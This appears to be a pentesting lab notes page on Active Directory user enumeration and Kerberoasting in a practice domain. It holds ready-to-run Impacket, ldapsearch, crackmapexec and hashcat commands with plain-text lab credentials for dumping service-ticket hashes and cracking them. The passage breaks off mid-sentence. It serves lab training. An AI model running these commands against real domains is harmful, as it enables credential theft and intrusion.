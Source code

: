 # Enumeration with user

## Impacket

```
GetADUsers.py -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople 
```



## LDAP

Interresting queries for LDAP



{% embed url="https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/" %}

```
ldapsearch -H ldap://192.168.56.11 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=north,DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" |grep 'distinguishedName:'
```

If a trust relationship is established between domains, yu can request users of the others domains with the previous command.

```
ldapsearch -H ldap://192.168.56.12 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b ',DC=essos,DC=local' "(&(objectCategory=person)(objectClass=user))"
ldapsearch -H ldap://192.168.56.10 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))"
```



## # Kerberoasting

Some users have an SPN tag set.

```
GetUserSPNs.py -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes
# or
cme ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
# and then crack with hashcat
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

For the first command, the hashes are stored in the file **kerberoasting.hashes**. Notice also that you can see with this command if the delegation is constrained.

or you can also use
